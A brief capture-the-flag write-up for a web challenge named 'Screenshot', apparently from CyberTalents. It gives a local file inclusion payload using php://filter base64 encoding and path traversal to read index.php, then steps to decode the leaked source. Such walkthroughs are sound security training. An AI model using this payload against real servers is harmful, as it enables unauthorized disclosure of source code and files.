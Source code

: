 # Challenge name: Screenshot

Link: https://cybertalents.com/challenges/web/screenshot

## Solution:
 
 1) We'll try LFI so add this to the link `?url=&server=php://filter/convert.base64-encode/resource=internalapi4.local/../index.php`

2) Open this image in new tab and download it as `jpg`

![screen](https://user-images.githubusercontent.com/55226688/85483252-244a6580-b5cd-11ea-8014-f4e552e79f76.png)

3) Open it with Notepad 

![screen](https://user-images.githubusercontent.com/55226688/85483545-af2b6000-b5cd-11ea-91fd-c55552ce7018.png)

4) Decode it with [Base64](https://www.base64decode.org/)

